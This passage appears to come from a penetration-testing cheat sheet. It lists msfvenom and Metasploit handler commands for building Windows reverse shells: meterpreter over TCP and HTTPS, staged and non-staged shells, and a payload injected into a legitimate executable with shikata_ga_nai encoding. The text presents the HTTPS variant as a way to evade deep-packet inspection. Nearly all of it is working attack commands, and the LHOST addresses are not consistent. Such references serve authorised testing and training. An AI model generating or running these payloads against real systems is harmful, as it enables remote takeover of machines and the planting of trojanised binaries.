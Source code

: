 ### Meterpreter

**Standard meterpreter**

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```text
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

### Non-staged payload

```text
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```text
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

### Staged payload

```text
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```text
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

### Inject payload into binary

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Linux
